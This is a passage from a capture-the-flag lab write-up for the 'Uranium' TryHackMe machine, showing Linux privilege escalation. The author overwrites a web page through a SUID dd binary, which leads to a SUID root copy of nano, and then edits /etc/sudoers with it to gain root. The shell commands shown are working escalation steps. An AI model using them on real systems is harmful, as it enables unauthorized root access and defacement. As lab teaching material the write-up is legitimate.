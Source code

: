 **So, there's a SUID `nano` binary in `kral4` home directory?**
```shell
kral4@uranium:~$ cd /home/kral4/
kral4@uranium:/home/kral4$ ls -lah
total 140K
drwxr-x--- 3 kral4 kral4 4.0K May  4  2021 .
drwxr-xr-x 4 root  root  4.0K Apr 23  2021 ..
lrwxrwxrwx 1 root  root     9 Apr 25  2021 .bash_history -> /dev/null
-rw-r--r-- 1 kral4 kral4  220 Apr  9  2021 .bash_logout
-rw-r--r-- 1 kral4 kral4 3.7K Apr  9  2021 .bashrc
-rwxr-xr-x 1 kral4 kral4 108K Apr  9  2021 chat_with_hakanbey
-rw-r--r-- 1 kral4 kral4    5 Feb 17 08:08 .check
drwxrwxr-x 3 kral4 kral4 4.0K Apr 10  2021 .local
-rw-r--r-- 1 kral4 kral4  807 Apr  9  2021 .profile
-rw-rw-r-- 1 kral4 kral4   38 Apr 10  2021 user_2.txt
```

**Hmm... Maybe we need to copy the `nano` binary?**
```shell
kral4@uranium:/home/kral4$ cp /bin/nano .
kral4@uranium:/home/kral4$ ls -lah nano 
-rwxr-xr-x 1 kral4 kral4 241K Feb 17 08:31 nano
```

**Oh! Since we have SUID permission in `/bin/dd`, we can just modify the `index.html`!**
```shell
kral4@uranium:/home/kral4$ echo "hacked" | /bin/dd of=/var/www/html/index.html
[...]
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Uranium-CTF/images/Pasted%20image%2020230217163350.png)

```shell
kral4@uranium:/home/kral4$ 
You have new mail in /var/mail/kral4

kral4@uranium:/home/kral4$ cat /var/mail/kral4
[...]
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
[...]
I think our index page has been hacked again. You know how to fix it, I am giving authorization.
[...]
```

```shell
kral4@uranium:/home/kral4$ ls -lah nano 
-rwsrwxrwx 1 root root 241K Feb 17 08:31 nano
```

Nice! We now have SUID sticky bit on binary `nano`!

Also, it's owned by root!

**That being said, we can escalate our privilege to root by modifing `/etc/sudoers`!**
```shell
kral4@uranium:/home/kral4$ /home/kral4/nano /etc/sudoers
```
